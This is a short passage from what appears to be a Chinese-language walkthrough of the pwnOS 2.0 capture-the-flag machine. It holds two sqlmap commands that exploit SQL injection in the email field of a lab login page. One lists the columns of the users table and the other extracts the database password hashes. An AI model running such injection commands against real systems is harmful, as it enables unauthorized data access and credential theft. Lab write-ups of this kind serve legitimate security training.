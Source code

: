 
爆列名：

```bash
root@kali:~# sqlmap -u "http://10.10.10.100/login.php" --data="email=admin@test.com&pass=admin&submit=login&submitted=TRUE" -p email -D ch16 -T users --column
```

![](/img/game/pwnos2.0/1511848942571.png)


猜解密码:

```bash
root@kali:~# sqlmap -u "http://10.10.10.100/login.php" --data="email=admin@test.com&pass=admin&submit=login&submitted=TRUE" -p email -D ch16 --passwords
```
